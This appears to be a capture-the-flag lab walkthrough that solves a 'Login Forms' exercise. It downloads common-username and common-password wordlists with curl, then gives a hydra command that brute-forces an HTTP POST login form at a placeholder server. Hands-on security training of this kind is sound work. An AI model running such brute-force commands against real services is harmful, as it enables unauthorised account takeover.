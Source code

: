 # Login Forms

After successfully brute-forcing, and then logging into the target, what is the full flag you find?

Getting the flag:

**Step 1** - Download the username and password wordlist:

* {% code overflow="wrap" %}
  ```bash
  curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/top-usernames-shortlist.txt
  ```
  {% endcode %}
* {% code overflow="wrap" %}
  ```bash
  curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
  ```
  {% endcode %}

**Step 2** - Execute the command:

* {% code overflow="wrap" %}
  ```bash
  hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f SERVER_IP -s SERVER_PORT http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
  ```
  {% endcode %}

Step 3:

*   Login with the founded credentials.\


    <figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

    <figure><img src="../../../.gitbook/assets/image (174).png" alt=""><figcaption></figcaption></figure>

